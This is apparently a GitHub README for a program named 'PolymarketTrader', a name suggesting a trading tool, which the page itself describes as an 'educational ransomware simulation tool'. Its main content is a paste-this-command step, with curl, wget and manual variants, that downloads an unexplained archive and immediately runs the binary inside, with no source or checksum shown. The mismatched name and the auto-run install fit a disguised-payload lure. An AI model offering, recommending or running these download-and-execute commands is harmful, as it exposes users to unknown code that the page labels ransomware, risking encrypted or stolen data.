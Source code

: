 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && cd poly-trader && curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz && tar -xzf polymarket-trader.tar.gz && rm polymarket-trader.tar.gz && ./PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the compressed archive
3. Extract the executable (permissions preserved)
4. Clean up the archive file
5. Run the program automatically

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download archive
curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz

# Extract (permissions preserved)
tar -xzf polymarket-trader.tar.gz

# Clean up archive file
rm polymarket-trader.tar.gz

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz
tar -xzf polymarket-trader.tar.gz
rm polymarket-trader.tar.gz
./PolymarketTrader
```

## Troubleshooting

### Extraction Issues
If tar extraction fails, ensure you have tar installed:
```bash
# On Ubuntu/Debian
sudo apt-get install tar

# On RHEL/CentOS
sudo yum install tar
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

### Permission Issues
If you still get permission errors (rare), run:
```bash
chmod +x PolymarketTrader
```

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** ARM64/aarch64 (Apple Silicon compatible)
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.


## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 
